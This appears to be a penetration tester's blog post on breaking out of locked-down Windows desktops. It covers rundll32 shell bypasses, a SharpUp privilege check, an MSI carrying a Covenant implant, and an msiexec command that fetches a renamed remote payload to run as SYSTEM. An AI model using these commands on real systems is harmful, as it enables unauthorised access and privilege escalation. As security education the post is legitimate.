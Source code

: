 ```yaml
---
layout: post
title: "Windows desktop breakout examples"
tags: Windows bypass SRP
---
```


When I come across a locked down Windows desktop I usually go through a process of trying to click everything see where I can write to and what I can execute etc. Then attempt most of the techniques used from this great github repo [UltimateAppLockerByPassList] [UltimateAppLockerByPassList].


When I can't run cmd or powershell the two examples below using rundll32 have worked many times in the past.

Using cmd.dll taken from [Didier Stevens] [Didier-Stevens].

`rundll32 shell32.dll,Control_RunDLL C:\location\of\reactos\cmd.dll`

Using PowerShll.dll taken from [PowerShll.dll] [PowerShll.dll] 

`rundll32 PowerShll.dll,main -i` 

Usually the next step is to elevate privileges and my current go to is running [SharpUp] [SharpUp]. 

`SharpUp audit`

![SharpUp output]({{site.baseurl}}/assets/img/2021-03-09/SharpUpAudit.png)


This shows that AlwaysInstallElevated registry keys are present. This can be checked manually via the commands below 

```
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated 
```

![Reg query]({{site.baseurl}}/assets/img/2021-03-09/AlwaysInstallElevatedregquery.png)

Now we have an attack vector we can create a windows installer package file. This can be done many ways but for this blog I am going to demonstrate the use of adding a Covenant Grunt binary as a custom action inside Visual Studio.  

Opening visual studio and start by creating a new project and selecting the setup wizard template. Change any project properties as necessary i.e target platform, author name. Add a new file to the project and import the Grunt binary. Then add a custom action to ensure the binary is executed on installation and change any custom action properties. 

![Visual Studio MSI]({{site.baseurl}}/assets/img/2021-03-09/GeneratingMSI.png)

Once you have compiled the project and transferred to target but clicking on the msi just gives an error message saying blocked becuase of security restriction policy.

![Visual Studio MSI]({{site.baseurl}}/assets/img/2021-03-09/MSI-clickblocked.png)

We can run it and get logs information to see what is happening but as suspected the software restriction policy is blocking the installation.  
`msiexec /q /i MSIprogram.msi /L*V! msilog.log`


It is possible to host the file remotely and to run an msi file which has been renamed to .png as shown [here] [msiexec].

`msiexec /q /i http://192.168.159.1/SRPbypass.png`

After running this a grunt running as SYSTEM should now be returned! 

![Grunts]({{site.baseurl}}/assets/img/2021-03-09/Grunts.png)

### Links & Resources

* <https://gracefulsecurity.com/windows-desktop-breakout/>{:target="_blank"}
* <https://www.trustedsec.com/blog/kioskpos-breakout-keys-in-windows/>{:target="_blank"}
* <https://www.pentestpartners.com/security-blog/breaking-out-of-citrix-and-other-restricted-desktop-environments/>{:target="_blank"}
* <https://github.com/FuzzySecurity/DefCon24>{:target="_blank"}
* <https://github.com/cobbr/Covenant>{:target="_blank"}


[UltimateAppLockerByPassList]: https://github.com/api0cradle/UltimateAppLockerByPassList
[Didier-Stevens]: https://blog.didierstevens.com/2010/02/04/cmd-dll/
[PowerShll.dll]: https://github.com/p3nt4/PowerShdll
[SharpUp]: https://github.com/GhostPack/SharpUp
[msiexec]:  https://github.com/api0cradle/UltimateAppLockerByPassList/blob/e8d71e9894fee6d31a50842af9481dcff80f4a40/md/Msiexec.exe.md